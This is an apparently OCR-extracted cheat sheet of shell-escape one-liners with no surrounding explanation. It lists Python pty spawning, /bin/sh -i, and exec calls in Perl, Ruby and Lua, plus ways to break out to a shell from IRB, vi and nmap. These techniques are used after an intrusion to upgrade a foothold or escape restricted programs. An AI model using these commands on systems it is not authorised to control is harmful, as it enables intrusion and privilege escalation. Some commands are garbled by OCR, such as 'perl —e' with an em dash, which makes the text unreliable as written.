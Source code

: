 ## python -c 'import pty; pty.spawn("/bin/sh")'

#echo os.system('/bin/bash')

## /bin/sh -i

## perl —e 'exec "/bin/sh";'

## perl: exec "/bin/sh";

## ruby: exec "/bin/sh"

## lua: os.execute('/bin/sh')

## (From within IRB)
### exec "/bin/sh"

## (From within vi)
### :!bash

## (From within vi)
### :set shell=/bin/bash:shell

## (From within nmap)
### !sh
